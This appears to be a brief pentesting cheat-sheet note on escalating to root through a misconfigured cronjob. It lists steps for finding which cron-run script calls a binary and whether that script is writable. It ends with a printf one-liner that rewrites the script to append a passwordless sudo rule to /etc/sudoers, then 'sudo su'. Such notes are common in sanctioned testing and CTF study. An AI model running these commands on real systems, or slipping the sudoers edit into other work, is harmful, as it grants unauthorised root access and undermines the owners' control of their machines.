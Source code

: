 
exploiting a cronjob that is misconfigured that runs as root


Methodology
=
1. find files used by cronjob - might just be a random binary, find where and if its used - somtimes cating crontab wont work, need to use grep
2. identify if it can be modified
3. utilize it to run a command that will grant root

Finding usage of binary
=
`grep -rnw /usr -e "/home/user/binary"` run from / will show what scripts might run the binary in a particular directory
`ls -al /directory/of/script/using/binary` - check permissions of binary

Commands
=
`groups user`
`crontab -l` - lists cronjobs of current user

Edit without shells or editors
=
`printf '#/bin/bash\necho "username ALL=NOPASSWD:ALL" >> /etc/sudoers' > /cronjob/path.sh` - add current user to sudoers `sudo -l to confirm`
`sudo su` - get root user